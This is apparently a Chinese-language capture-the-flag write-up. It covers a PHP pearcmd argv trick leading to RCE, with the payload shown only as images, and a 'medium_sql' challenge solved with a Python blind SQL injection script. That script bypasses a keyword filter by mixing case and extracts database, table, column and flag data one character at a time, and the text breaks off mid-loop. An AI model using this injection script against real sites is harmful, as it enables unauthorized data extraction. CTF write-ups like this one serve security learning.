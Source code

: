 ```php
$argv = Console_Getopt::readPHPArgv();
if (php_sapi_name() != 'cli' && isset($argv[1]) && $argv[1] == '--') {
    unset($argv[1]);
    $argv = array_values($argv);
}
$progname = PEAR_RUNTYPE;
array_shift($argv);
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
```

注意到有一个`array_shift()`，它的作用是读取并去掉数组中的第一个元素。第一个地方放+实际上是为了传一个空变量进去

测试：

```php
<?php
$argv = array('asdsdafa',123,'fsgfsg');
foreach($argv as $str => $val){
    echo "$str : $val\n";
}
array_shift($argv);
var_dump($argv);
?>
```

输出：

![image-20231207160140506](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231207160140506.png)

### 回到本题

直接上payload

![image-20231207162217481](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231207162217481.png)

![image-20231207162643201](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231207162643201.png)

进行rce即可

## medium_sql

上一次做还是用sqlmap一把嗦，这次试试手动盲注

过滤了几个关键词，但是没有过滤大小写，直接绕过即可

```python
import requests

url = 'http://6bdebf20-3aeb-42c7-afa9-13c2dc54c23b.node4.buuoj.cn:81/?id=TMP0919\' '
result = ''
for i in range(1,100):
    left = 32
    right = 127
    while right > left:
        mid = (left + right) >> 1
        # payload = 'And if(aScii(suBstr((selEct database()),%d,1))>%d,1,0)--+'%(i,mid)
        # payload = 'And if(aScii(suBstr((selEct group_concat(table_name) from infOrmation_schema.tables whEre table_schema="ctf"),%d,1))>%d,1,0)--+' %(i,mid)
        # payload = 'And if(aScii(suBstr((selEct group_concat(column_name) from infOrmation_schema.columns whEre table_name="here_is_flag"),%d,1))>%d,1,0)--+' %(i,mid)
        payload = 'And if(aScii(suBstr((selEct group_concat(flag) from here_is_flag),%d,1))>%d,1,0)--+' %(i,mid)
        str = url + payload
        # print(str)
        res = requests.get(url=str)
        # print(res.text)
```